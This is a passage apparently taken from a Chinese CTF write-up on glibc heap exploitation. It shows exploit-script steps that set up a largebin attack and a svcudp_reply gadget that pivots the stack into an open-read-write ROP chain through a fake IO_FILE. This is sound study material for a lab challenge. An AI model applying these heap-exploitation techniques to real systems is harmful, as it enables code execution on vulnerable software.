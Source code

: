 [![](assets/1701606552-9727b015002c25fdaa6999e65dd537c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121209-4e61f198-88ed-1.png)

```plain
edit(0,'\x00'*0x420+p64(0)+p64(0x431))
edit(1,'\x00'*0x340+p64(0)+p64(0x431))
```

接下来构造好 largebin attack 的触发

```plain
add(5,0x450,'bbbb')
add(6,0x450,'bbbb')
add(7,0x440,'bbbb')
add(8,0x440,'bbbb')
delete(5)#chunk5 --> unsorted bin
add(9,0x500,'bbbb')#chunk5 --> largebin
delete(7)#chunk7-->unsortedbin
```

[![](assets/1701606552-6d09ca9d377dbcdbb51f309fe9cbaafc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121219-5449e4e4-88ed-1.png)

下一步就是构造好 orw 链和 fake io

这里是 winmt 师傅的文章浇的原理[\[原创\] CTF 中 glibc 堆利用 及 IO\_FILE 总结-Pwn-看雪 - 安全社区 | 安全招聘|kanxue.com](https://bbs.kanxue.com/thread-272098.htm#msg_header_h3_29)

tql

通过 svcudp\_reply+26 处的 gadget 做到类似于栈迁移的效果，走 ROP 链打 orw

```plain
<svcudp_reply+26>:  mov  rbp,QWORD PTR [rdi+0x48]
<svcudp_reply+30>:  mov  rax,QWORD PTR [rbp+0x18]
<svcudp_reply+34>:  lea  r13,[rbp+0x10]
<svcudp_reply+38>:  mov  DWORD PTR [rbp+0x10],0x0
<svcudp_reply+45>:  mov  rdi,r13
<svcudp_reply+48>:  call  QWORD PTR [rax+0x28]
```
